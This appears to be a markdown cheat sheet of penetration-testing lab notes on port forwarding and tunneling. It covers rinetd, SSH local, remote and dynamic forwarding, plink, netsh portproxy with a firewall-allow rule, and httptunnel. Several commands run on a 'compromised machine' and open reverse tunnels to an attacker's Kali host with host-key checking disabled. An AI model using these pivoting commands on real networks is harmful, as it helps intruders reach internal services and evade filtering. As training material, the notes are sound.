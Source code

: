 # Port Forwarding
## [rinetd](https://github.com/samhocevar/rinetd)
It is used for redirect any traffic received to an specific port
- In its config file we have to specify the bindaddress, bindport, connectaddress and connectport:
  ```bash
  kali@kali:~$ cat /etc/rinetd.conf
  ...
  # bindadress bindport connectaddress connectport
  0.0.0.0 80 216.58.207.142 80
  ...
  
  kali@kali:~$ sudo service rinetd restart
  ```
## SSH Local Port Forwarding
### Linux
```bash
kali@kali:~$ sudo ssh -N -L 0.0.0.0:1337:10.0.0.2:80 root@10.0.0.1
```
![image](https://user-images.githubusercontent.com/43812413/199309514-9603a925-3358-4fee-b289-955c892f04ed.png)

## SSH Remote Port Forwarding
### Linux
```bash
user1@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4
```

#### SSH wothout password
```bash
# Compromised machine
mkdir keys
cd keys
ssh-keygen

#Kali
nano ~/.ssh/authorized_keys 
from="COMPRIMISED-IP",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ubuntu

ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```
### Windows
#### plink
```bash
 cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
 ```


## SSH Dynamic Port Forwarding
- With the **-D** flag we can set a SOCKS4/5 application proxy
```
kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 user1@10.11.0.128

kali@kali:~$ cat /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 8080
```

## NETSH Port Forwarding
- Installed by default on every modern version of Windows
- Windows system must have the *IP Helper* running and *IPv6* supports must be enabled.
```bash
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```
- If theres is some rule in the Firewall that blocks the incoming connections to the specified port
```bash
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
``````

# Tunneling
## httptunnel
- It is used when only HTTP traffic is allowed. If we have a compromised machines we can:
  1. Set-up a SSH Port Forwarding in the target machine, that forwards the traffic to another machine in its private network
    ```bash
    www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 user1@127.0.0.1
    ```
  2. Set-up a HTTP Tunnel between our machine and the compromised one (the compromised one will re-forward the traffic to the port configured in the port forwarding)
    ```bash
    # at the compromised machine
    user1@debian:~$ hts --forward-port localhost:8888 1234
    
    # at our Kali
    htc --forward-port 8080 10.11.0.128:1234
    ```
    

